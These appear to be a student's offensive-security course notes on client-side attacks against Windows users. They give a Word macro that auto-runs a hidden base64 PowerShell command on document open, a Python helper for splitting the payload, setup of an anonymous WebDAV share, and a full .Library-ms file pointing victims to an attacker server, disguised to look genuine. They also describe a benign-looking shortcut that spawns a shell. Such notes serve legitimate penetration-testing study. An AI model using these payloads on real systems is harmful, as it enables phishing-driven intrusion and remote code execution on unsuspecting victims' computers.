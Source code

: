 ## Section 2 Exploiting Microsoft Office
### Subsection 11.2.3 Leveraging Microsoft Word Macros
- Steps 
	- Save the document as a .doc file
		- .docx files don't allow for direct macro execution on the host system
	- Write the macro as follows in the example
- Python code to get the base64 into the right size
```
# Use the one-liner and powershell conversion used previously to create the base64 string that will be used as STRING below
str = "powershell.exe -nop -w hidden -e STRING"

n = 50

for i in range(0, len(str),n):
     print("Str = Str + " + '"' + str[i:i+n] + '"')
```
- Example
```
Sub AutoOpen()
	MyMacro
End Sub

Sub Document_Open()
	MyMacro
End Sub

Sub MyMacro()

	Dim Str As String
	PASTE FIRST LINE OF OUTPUT FROM THE PYTHON SCRIPT
		PASTE THE REMAINING LINES OF OUTPUT FROM THE PYTHON SCRIPT
	CreateObject("Wscript.Shell").Run Str
```
## Section 3 Abusing Windows Library Files
### Subsection 11.3.1 Obtaining Code Execution via Windows Library Files 
- File extension for a library file is .Library-ms
- These files are virtual containers for user content
	- Can connect users with data stored in remote locations like web services or shares
	- Are executed by double-clicking on them 
- Creating a Windows library file connecting to a WebDAV share 
	- Setting up the WebDAV share 
```
python3 -m pip install wsgidav
```
OR
```
sudo apt install -y python3-wsgidav
```
```
mkdir /home/kali/webdav
```
```
touch /home/kali/webdav/test.txt
```
```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```
- Creating the config.Library-ms file
	- Consists of 
		- General Library Information
		- Library properties 
		- Library locations
		- XML format
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll, 34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://SERVER_IP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```
- Tags 
	- name
		- This is the name of the library and is not something that can be set randomly
		- This must be the name of a library by providing the DLL name and index which van be found on Microsoft's website
		- This example uses @windows.storage.dll,-34582 
		- Can also use @shell32.dll,-34575
	- version
		- set to a numerical value of your choice 
	- isLibraryPinned
		- Specifies if the library is pinned to the navigation pane in windows explorer
			- set to true because it may be another small detail to make the whole process feel more genuine
	- iconReference
		- Determines which icon is used to display the library file
		- Must be specified in the same format as the name element
		- This example uses imagesres.dll to choose between all windows icon -1002 for the Documents folder icon and -1003 for the Pictures folder icon
	- templateInfo
		- Contains the folderType tags
			- Determine the columns and details that appear in windows explorer by default after opening the library
			- You have to specify a GUID you can lookup on the microsoft documentation webpage
			- This example uses the Documents  GUID to appear as convincing as possible
	- searchConnectorDescriptionList
		- Contains the searchConnectorDescription tag
			- Search connectors are used by library files to specify the connection settings to a remote location
			- You can specify one or more searchConnectorDescription elements inside the searchConnectorDescriptionList tags
			- This example provides information to our WebDAV share
			- isDefaultSaveLocation
				- determines the behavior of windows explorer when a user chooses to save an item
				- to use the default behavior and location we set it to true
			- isSupported
				- not documented in the microsoft documentation webpage and is used for compatibility so we set it to false 
			- simpleLocation
				- Used to specify the remote location in a more user-friendly way as the normal locationProvider element
				- url
					- Server IP or where the file(s) are located
					- This example points to our WebDav share
- Every time that a library file is executed it is modified and includes serialized base64 code and may not run correctly the next time so it is important to use a new file each time of execution.
- You can also create a shortcut file on the victim computer for them to click that looks benign but in the location box when you set it up you enter the powershell one-liner from previous exercises and when it's double-clicked you'll get a shell. 
## Exercises To-Do

- [ ] 2.1.1 (page 20)